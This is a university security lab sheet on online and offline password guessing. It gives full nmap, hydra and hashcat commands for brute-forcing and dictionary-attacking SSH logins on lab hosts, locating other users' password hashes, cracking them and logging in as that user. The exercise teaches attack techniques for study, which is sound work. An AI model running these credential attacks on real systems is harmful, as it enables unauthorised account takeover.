 # **Sigurnost računala i podataka** <!-- omit in toc -->

- [Lab 6: Online and Offline Password Guessing](#lab-6-online-and-offline-password-guessing)
  - [Online Password Guessing](#online-password-guessing)
  - [Offline Password Guessing](#offline-password-guessing)

## Lab 6: Online and Offline Password Guessing

### Online Password Guessing

1. Open bash shell in WSL on your local Windows machine.
2. Check that you can reach the lab server by pinging it.
    
    ```bash
    ping challenges.local
    ```
    
3. Install `nmap` application. In the bash shell execute the following commands.
    
    ```bash
    sudo apt-get update
    sudo apt-get install nmap
    
    # Test it
    nmap
    ```
    
    Try to understand what is `nmap` used for (Google it).
    
4. Next, run the following command.
    
    ```bash
    nmap -v 10.0.15.0/28
    ```
    
    Comment the results.
    
5. Try to open a remote shell on a dedicated machine. Use `ssh` client from your local shell as shown below:
    
    ```bash
    # ssh <username>@<your hostname>
    # (e.g., for username "doe_john", the hostname will be "doejohn.local") 
    ssh doe_john@doejohn.local
    ```
    
6. Install `hydra` application. Get to know it. Now, try to perform an **online password guessing attack** against your account. You know the following information about the used password:
    - it is comprised of lowercase letters
    - its length between 4 and 6 characters
    
    **Q1:** Estimate the password space.
    
    ```bash
    # hydra -l <username> -x 4:6:a <your IP address or hostname> -V -t 1 ssh
    hydra -l doe_john -x 4:6:a doejohn.local -V -t 1 ssh
    ```
    
    **Q2:** Using the output produced by `hydra` try to estimate your effort, that is how long it would take, on average, before you succeed. You can also try to play with parameter `-t` (**IMPORTANT:** Test values 2, 3, 4 but please do not exaggerate to avoid crushing the server).
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
7. Get the dictionary from [http://challenges.local](http://a507-server.local:8080/) as follows (please mind the **group ID**).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://challenges.local/dictionary/g1/
    ```
    
8. Finally, use `hydra` with the dictionary as shown below (IMPORTANT: use `dictionary_online.txt`).
    
    ```bash
    # hydra -l <username> -P dictionary/<group ID>/dictionary_online.txt <your IP address or hostname> -V -t 4 ssh
    hydra -l doe_john -P dictionary/g1/dictionary_online.txt doejohn.local -V -t 4 ssh
    ```
    
9. Try to login to your machine using the discovered password. Locate password hashes, select one account (different from your own) and try to learn the corresponding password using **offline password guessing** attack as outlined in the sequel.

### Offline Password Guessing

1. For this task, use `hashcat` tool. Install it on your local machine as follows.
    
    ```bash
    sudo apt-get install hashcat
    
    # Test it
    hashcat
    ```
    
2. Save the password hash obtained in the previous task into a file. To make this step somewhat easier, open the present folder in Visual Studio Code by running the following command.
    
    ```bash
    code .
    ```
    
3. Start offline guessing attack by executing the following command. As in the previous task you know the following about the password:
    - it is comprised of lowercase letters
    - its length is exactly 6 characters
    
    ```bash
    # hashcat --force -m 1800 -a 3 <password_hash_file> ?l?l?l?l?l?l --status --status-timer 10
    hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
    ```
    
    **Q1:** Estimate the password space.
    
    **Q2:** Using the output produced by `hashcat` try to estimate your effort, that is how long it would take, on average, before you succeed.
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
4. If the attack from the previous step is not feasible approach, try a dictionary-based guessing attack (**IMPORTANT:** use `dictionary_offline.txt`). 
    
    As before you can get the dictionary by executing the following in the local (WSL) bash shell (in the same directory where you stored the password hash file).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://challenges.local/dictionary/g1/
    ```
    
    Now start `hashcat` using the following command.
    
    ```bash
    # hashcat --force -m 1800 -a 0 <password_hash_file> <dictionary_file> --status --status-timer 10
    hashcat --force -m 1800 -a 0 password_hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
    ```
    
5. Test validity of the cracked password by logging into the remote machine as follows.
    
    ```bash
    # ssh <username>@<your IP address or hostname>
    ssh freddie_mercury@doejohn.local
    ```